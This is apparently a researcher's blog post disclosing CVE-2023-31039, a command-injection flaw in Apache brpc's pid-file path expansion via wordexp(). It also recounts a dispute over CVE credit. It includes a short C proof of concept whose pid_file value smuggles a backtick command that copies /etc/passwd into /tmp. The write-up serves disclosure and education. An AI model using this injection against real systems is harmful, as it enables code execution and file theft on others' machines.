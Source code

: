```yaml
---
title: "CVE-2023-31039: Dont Steal My First CVE"
date: 2023-06-26T17:54:07+07:00
draft: false
iscjklanguage: false
isarchived: false
categories: ["Security Research"]
images: ["https://images.unsplash.com/photo-1501139083538-0139583c060f?w=1920&q=50"]
aliases: []
description: "My first CVE experience and how it was stolen by someone else."
---
```



{{< figure src="https://brpc.apache.org/images/docs/logo.png"  >}}

## Introduction

In the vast landscape of open source software, collaboration and contribution are highly valued. Open source projects rely on the collective efforts of developers around the world to improve and secure their codebases. However, sometimes the lines between collaboration and opportunism can blur, leading to unexpected situations that can leave contributors feeling betrayed. Throughout this blog post, i highlights the importance of ethical behavior within open source communities for responsible disclosure and attribution, emphasizing the need for transparency, acknowledgment, and fair recognition of researcher effort. 

## Vulnerability
Before dive deep into the problem, lets talk about the vulnerability itself. The vulnerability occur at this [method](https://github.com/apache/brpc/blob/eda61e7762bcea98b85410f80a2fa55e2c618845/src/brpc/server.cpp#L1725)
```c
static std::string ExpandPath(const std::string &path) {
    if (path.empty()) {
        return std::string();
    }
    std::string ret;
    wordexp_t p;
    wordexp(path.c_str(), &p, 0);
    CHECK_EQ(p.we_wordc, 1u);
    if (p.we_wordc == 1) {
        ret = p.we_wordv[0];
    }
    wordfree(&p);
    return ret;
}
``` 
As you can see, the project is using `wordexp()` to expand a path. For example if you input path like `~/project/hack` it will translated into `/home/syahrul/project/hack`. According to `wordexp` [manual pages](https://man7.org/linux/man-pages/man3/wordexp.3.html) user supplied input must not contains some character to do command substitution like `${}` or double backtick because the path expansion from `wordexp` is same as the expansion by the shell `sh()`. So if you input path like `~/project/${hack}` it will translated into `/home/syahrul/project/hack` and the `hack` will be executed as a command. This is a critical vulnerability because it can lead to remote code execution. 

Back into the vulnerable code, if we can control the `path` string, we can run any command on system. After tracing the cross reference, the `ExpandPath` method is used by `PutPidFileIfNeeded()`

```c
void Server::PutPidFileIfNeeded() {
    _options.pid_file = ExpandPath(_options.pid_file);
    if (_options.pid_file.empty()) {
        return;
    }
    RPC_VLOG << "pid_file = " << _options.pid_file;
    ....
}
```

And the `_options.pid_file` is user controllable input from `ServerOptions::pid_file`. The example of usage of `ServerOptions::pid_file` is available on the [one of this unit test](https://github.com/apache/brpc/blob/8256f7f0d28169f295a2c34b513993276a93461b/test/brpc_server_unittest.cpp#L1386).

```c
TEST_F(ServerTest, create_pid_file) {
    {
        brpc::Server server;
        server._options.pid_file = "./pid_dir/sub_dir/./.server.pid";
        server.PutPidFileIfNeeded();
        pid_t pid = getpid();
        std::ifstream fin("./pid_dir/sub_dir/.server.pid");
        ASSERT_TRUE(fin.is_open());
        pid_t pid_from_file;
        fin >> pid_from_file;
        ASSERT_EQ(pid, pid_from_file);
    }
    std::ifstream fin("./pid_dir/sub_dir/.server.pid");
    ASSERT_FALSE(fin.is_open());
}
```
Now the vulnerability can exploited by mimic the unit test. The following payload will create a file named `pwned_by_ru1es` on `/tmp` directory.

```c
#include <brpc/server.h>

int main(int argc, char* argv[]) {
    brpc::Server server;
    brpc::ServerOptions options;
    options.pid_file = "`cat /etc/passwd > /tmp/pwned_by_ru1es`";
    if (server.Start(1337, &options) != 0)
    {
        LOG(ERROR) << "Fail to start HttpServer";
        return -1;
    }
    server.RunUntilAskedToQuit();
    return 0;
}
```

i have created the Proof of Concept with docker to reproduce the vulnerability. You can check it [here](https://github.com/sahruldotid/CVEs/tree/main/CVE-2023-31039)

## Reporting

Few days before i found the vulnerability, i stumble upon [this website](https://huntr.dev) that offer you some ability to report a open source security vulnerability to the maintainer. I think this is useful for me because i dont need to find any contact or email of the maintainer. Also this platform is cooperate with MITRE CVE Program to assign CVE ID so that i think this is a good place to report the vulnerability.

Here's the report link : [https://huntr.dev/bounties/c4c8b69e-daf7-4e6b-982b-732936a7d8a4/](https://huntr.dev/bounties/c4c8b69e-daf7-4e6b-982b-732936a7d8a4/)

I reported at 20 April 2023 with all the information like the description, vulnerable code, the PoC, and the impact of the vulnerability. 
![](https://user-images.githubusercontent.com/11147011/248794384-73e2aa35-55e8-490d-a1c2-aa41bf3c9644.png)

After few days, specifically at 24 and 27 April 2023, the maintainer aknowledge and validate my report as valid security vulnerability
![](https://user-images.githubusercontent.com/11147011/248795332-32aa1723-37a2-41a7-9eba-7460e654fce2.png)

Few days without any response, i found that the maintainer released new version of brpc and the vulnerability has been patched within [this commit](https://github.com/apache/brpc/commit/49038448a718f3c5093cc9ebed6e316cf0041cc0)
![](https://user-images.githubusercontent.com/11147011/248796662-26ffe5c6-2380-4c38-a19f-05234f31985b.png)
![](https://user-images.githubusercontent.com/11147011/248797371-956cdec1-f4fb-4e1e-8fad-9d237bb653e4.png)

This is exactly same as the occurence of the vulnerability in my report and the date is obviously after my report. So i think this is a good sign that the maintainer has fixed the vulnerability.
![](https://user-images.githubusercontent.com/11147011/248798665-5f8002bd-d278-4d67-bb2f-c9fd79c69206.png)

Then i contacted the admin of huntr.dev what the status of my report now. One of the admin said that Apache is probably strategically delaying the publication of the vulnerability report. At first place i think maybe i need to wait more. But after few days, i found that the vulnerability has been published on [CVE-2023-31039](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-31039) and [NVD](https://nvd.nist.gov/vuln/detail/CVE-2023-31039) with the date 2021-05-08. 

This CVE date is exactly after i reported this vulnerability and the maintainer didnt event resolve my report at huntr.dev anymore. My patience is running out, through discord DM, i contacted one of the huntr.dev admin and they said: 
![](https://user-images.githubusercontent.com/11147011/248801845-86b6bf09-8e63-480c-852d-be75dfc138f5.png)

Like i was expected, the maintainer didnt even resolve my report at huntr.dev after a week and now admin has to published the vulnerability manually. I think this is not fair for me because i have reported the vulnerability first and the maintainer didnt even resolve my report even they assign the CVE under someone name 🤣. This is a bad practice from the maintainer and i think this is not a good way to treat the security researcher. I also dissapointed because the platform didnt escalate the issue or do anything about it in order to help assign my name under the CVE 😅.

## Timeline
- 2023-04-20: Vulnerability discovered.
- 2023-04-24: Maintainer acknowledge the report.
- 2023-04-27: ASF Security Team validated this vulnerability.
- XXXX-XX-XX: Maintaner fixed the vulnerability.
- XXXX-XX-XX: Assigned CVE but not under my name.
- 2023-05-06: Saw vulnerability has been fixed and i contact the Admin why there's no updates.
- 2023-05-22: Admin replied and said that i need to wait.
- 2023-06-12: Recontact the Admin and ask for updates through DM.
- 2023-06-26: Vulnerability published.

## Conclusion

Well, at the end of the day, i cant do anything about it and just gave up. I hope this writeup can be a lesson for me and for the other security researcher to be more careful when reporting a vulnerability to the maintainer through third party platform.

### Q&A 
- Q: How did you know that the maintainer is stealing your vulnerability
- A: Well after doing some osint, i find out that someone who submit PR is one of maintainer. You can check his email at this [mailing list](https://seclists.org/oss-sec/2023/q2/130) 

Thank you for reading!
